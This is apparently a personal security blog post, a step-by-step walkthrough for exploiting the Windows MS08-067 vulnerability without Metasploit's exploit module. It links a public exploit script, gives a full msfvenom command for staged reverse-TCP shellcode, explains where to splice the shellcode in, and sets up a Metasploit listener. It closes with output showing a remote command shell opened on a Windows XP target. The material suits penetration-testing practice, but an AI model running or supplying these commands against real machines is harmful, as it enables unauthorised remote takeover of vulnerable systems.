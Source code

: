 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```


MS08-067 - Without Mimikatz Script
==================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/raw/40279 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`   
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1   Windows XP SP0/1 Universal
2   Windows 2000 Universal
3   Windows 2003 SP0 Universal
4   Windows 2003 SP1 English
5   Windows XP SP3 French (NX)
6   Windows XP SP3 English (NX)
7   Windows XP SP3 English (AlwaysOn NX)

Next -  Start Metasploit and setup a handler 
use exploit/multi/handler
set LHOST X.X.X.X
set LPORT XXXX
set payload windows/shell/reverse_tcp
exploit -j

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


python 40279.py 1

You should see the reverse shell returned.

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on X.X.X.X:8080 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to A.A.A.A
[*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



